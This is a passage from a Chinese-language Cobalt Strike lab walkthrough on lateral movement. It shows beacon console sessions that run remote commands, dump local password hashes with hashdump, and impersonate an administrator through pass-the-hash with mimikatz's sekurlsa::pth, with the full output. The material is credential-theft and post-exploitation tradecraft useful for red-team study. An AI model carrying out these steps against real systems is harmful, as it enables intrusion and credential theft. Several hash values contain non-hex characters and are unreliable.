 ```bash
               4 个目录 28,493,299,712 可用字节
               
beacon> powershell Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[*] Tasked beacon to run: Invoke-Command -computer WIN-P2AASSD1AF1 -ScriptBlock {whoami}
[+] host called home, sent: 231 bytes
[+] received output:
teamssix\administrator
```
当密码输入错误时，执行上面的两个命令就会提示 登录失败: 未知的用户名或错误密码。 同样的使用 rev2self 可除去当前令牌，恢复原来的 SYSTEM 权限。

2、使用 spawn beacon 替代凭证

spawnas DOMAIN\user password
3、在目标上建立账户

net use \\host\C$/USER:DOMAIN\user password
这两种方法，在之前的笔记中都或多或少的提及过，这里不再过多赘述。

密码哈希 #
使用 mimikatz 获取密码哈希

pth DOMAIN\user ntlmhash
如何工作的？

1、mimikatz 使用登录令牌开启了一个进程，在单点登录信息那里填入我们提供的用户名称、域、密码哈希值

2、cobalt strike 自动的从那个进程中窃取令牌并关闭

首先使用 hashdump 获取用户的密码哈希值，这里的 beacon 会话为 SYSTEM 权限。
```bash
beacon> hashdump
[*] Tasked beacon to dump hashes
[+] host called home, sent: 82501 bytes
[+] received password hashes:
Administrator:500:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Daniel:1000:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
Guest:501:aca3b435b5z404eeaad3f435b51404he:31d6cfe0d16ae931b73c59d7e0c089c0:::
TeamsSix:1002:aca3b435b5z404eeaad3f435b51404he:12cb161bvca930994x00cbc0aczf06d1:::
使用 pth 获取信任

beacon> pth TEAMSSIX\Administrator 12cb161bvca930994x00cbc0aczf06d1
[+] host called home, sent: 23 bytes
[*] Tasked beacon to run mimikatz's sekurlsa::pth /user:Administrator /domain:TEAMSSIX /ntlm:12cb161bvca930994x00cbc0aczf06d1 /run:"%COMSPEC% /c echo ade660d8dce > \\.\pipe\8d3e4c" command
[+] host called home, sent: 750600 bytes
[+] host called home, sent: 71 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
user	: Administrator
domain	: TEAMSSIX
program	: C:\Windows\system32\cmd.exe /c echo ade660d8dce > \\.\pipe\8d3e4c
impers.	: no
NTLM	: 12cb161bvca930994x00cbc0aczf06d1
  |  PID  2992
  |  TID  5028
  |  LSA Process is now R/W
  |  LUID 0 ; 14812112 (00000000:00e203d0)
  \_ msv1_0   - data copy @ 0000000001794E80 : OK !
  \_ kerberos - data copy @ 000000000044A188
   \_ aes256_hmac       -> null             
   \_ aes128_hmac       -> null             
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 00000000017DA1E8 (16) -> null
```